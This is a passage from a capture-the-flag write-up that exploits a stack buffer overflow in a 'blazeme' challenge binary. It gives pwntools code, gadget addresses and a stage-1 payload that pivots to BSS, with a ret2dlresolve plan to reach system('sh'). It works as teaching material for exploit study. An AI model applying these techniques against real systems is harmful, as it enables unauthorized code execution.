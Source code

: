 #### The bugs

From the Overview section above we should now that it's a stack buffer overflow. Dynamic binary, No canary and NX protection found, so basically we will solve this challenge using ret2libc. But again there isn't any function that useful to leak libc address.

#### Exploitation's scenario

1. Because we can't leak anything, first we should defeat ASLR by read our payload to BSS segment and jump to it. Thank god no PIE enable.

2. Calling `_dl_resolve()` to resolves and calls `system("sh")`.

### Exploitation

#### Helper

Some variable that we need in the exploitation process, will talk about it in the Stage 2's section.

```python
r = process("./blazeme", aslr=1)

read_plt = 0x080482f0
tmp_got = 0x0804a000

ELF_JMPREL_Rel_Tab = 0x08048298
ELF_String_Tab = 0x0804821C
ELF_Symbol_Tab = 0x080481CC

leave_ret_gdt = 0x08048388
bss_segment = 0x0804af00
_dl_resolve = 0x080482e0

pad = "A"*108
```

#### Stage 1. Reads stage2 payload and jump to it, defeat ASLR

Using ret2libc we craft payload to read stage2 payload and jump to it using `leave; ret;` gadget.

```python
stage1 = flat(pad, p32(bss_segment), p32(read_plt), p32(leave_ret_gdt), p32(0), p32(bss_segment), p32(0x80))

r.send(stage1)
```

Binary then will reads our next input and stores it on BSS segment.

#### Stage 2. Return to _dl_resolve()

##### Elf relocation

We know that for a dynamic binary, when it calls a libc function (e.g `read`) for the first time, the Linker (we know as `LD`) will search it in the libc then executes the function. After that the address of `read` will placed in GOT segment and can be use for the next function call.
